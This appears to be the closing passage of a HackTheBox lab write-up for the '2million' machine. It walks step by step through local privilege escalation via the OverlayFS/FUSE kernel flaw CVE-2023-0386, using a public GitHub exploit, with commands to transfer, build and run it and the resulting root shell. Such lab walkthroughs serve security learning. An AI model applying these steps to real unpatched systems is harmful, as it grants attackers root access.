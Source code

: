 
Firstly, I've done some basic enumeration on the system (checking `passwd` and `shadow`, listing all SUID binaries, searching in the MySQL database for sensitive data, etc). Then, I've looked into the `/var/mail` directory. There, we found a email for the admin user:

```
Hey admin,

I'm know you're working as fast as you can to do the DB migration. While we're partially down, can you also upgrade the OS on our web host? There have been a few serious Linux kernel CVEs already this year. That one in OverlayFS / FUSE looks nasty. We can't get popped by that.

HTB Godfather
```

Searching for a OverlayFS / Fuse vulnerabilities, we found about the [CVE-2023-0386](https://nvd.nist.gov/vuln/detail/CVE-2023-0386), which allows privilege escalation.

Without going much further in the explanation, this vulnerability allows a low privileged user to run SUID binaries without having the permission do so. It happens because of a flaw in the Linux kernel's OverlayFS subsystem: when a user copies a file with capabilities from one place to another, a bug mishandles the permissions, granting the user access to execute the SUID binary.

In GitHub, there's a bunch of exploits for this CVE. I've used [this one](https://github.com/xkaneiki/CVE-2023-0386).  To gain root access, do the following steps:

- Clone the repo to our local machine:

```shell
git clone https://github.com/xkaneiki/CVE-2023-0386
```

- Transfer the files to the remote host:

```shell
scp -r ./CVE-2023-0386 admin@2million.htb:/tmp
```

- Login in two different `ssh` sessions:

```shell
(session1) ssh admin@2million.htb
(session2) ssh admin@2million.htb
```

- Enter in the directory and build the exploit:

```shell
(session1) cd /tmp/CVE-2023-0386 && make all
(session2) cd /tmp/CVE-2023-0386
```

- In `session1`, run the `fuse` binary:

```shell
(session1) ./fuse ./ovlcap/lower ./gc
```

- In `session2`, the `exp`: 

```shell
(session2) ./exp
uid:1000 gid:1000
[+] mount success
total 8
drwxrwxr-x 1 root   root     4096 Jun 11 18:56 .
drwxr-xr-x 6 root   root     4096 Jun 11 18:56 ..
-rwsrwxrwx 1 nobody nogroup 16096 Jan  1  1970 file
[+] exploit success!

root@2million:/tmp/CVE-2023-0386 # 
```


[^1]: It's possible to bruteforce directories too, but all links are available through crawling and javascript analysis. If you want to **speed things up**, use the `-jc/-js-crawl` option in katana. 
[^2]: The responses are always equal to the "Invalid Code" response, even with Boolean Based techniques. 
[^3]: The `ovpn` file contains a subdomain to connect: `edge-eu-free-1.2million.htb`, on port 1337. This port is closed. 
[^4]: The `10.10.14.38` is my local address of the real HackTheBox VPN (tun0). 
[^5]: To use the web-server in your local machine, make sure to create the database and tables of the application.